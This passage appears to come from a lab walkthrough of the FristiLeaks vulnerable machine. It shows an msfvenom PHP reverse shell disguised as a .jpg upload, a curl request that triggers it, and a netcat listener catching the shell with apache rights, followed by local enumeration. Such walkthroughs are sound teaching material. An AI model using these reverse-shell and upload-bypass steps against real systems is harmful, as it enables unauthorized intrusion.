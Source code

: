 ```console
root@kali:~$ msfvenom -p php/reverse_perl LHOST=192.168.179.1 LPORT=443 -o z.php.jpg
```

We upload the reverse shell, this was created successfully into the uploads directory.

![](/assets/images/fristileaks/screenshot-8.png)

![](/assets/images/fristileaks/screenshot-9.png)

We start a netcat listener on port 443 and run the following curl request.

```console
root@kali:~$ curl http://192.168.179.169/fristi/uploads/z.php.jpg
```

We get a shell with apache permissions.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.169] 34123
id
uid=48(apache) gid=48(apache) groups=48(apache)
script -qc /bin/bash /dev/null
bash-4.1$ 
```

I found a note in the **/var/www/** directory for **eezeepz**, this catches my attention.

```console
bash-4.1$ cd /var/www
cd /var/www
bash-4.1$ ls 
ls 
cgi-bin  error  html  icons  notes.txt
bash-4.1$ cat notes.txt 
cat notes.txt
hey eezeepz your homedir is a mess, go clean it up, just dont delete
the important stuff.

-jerry
```
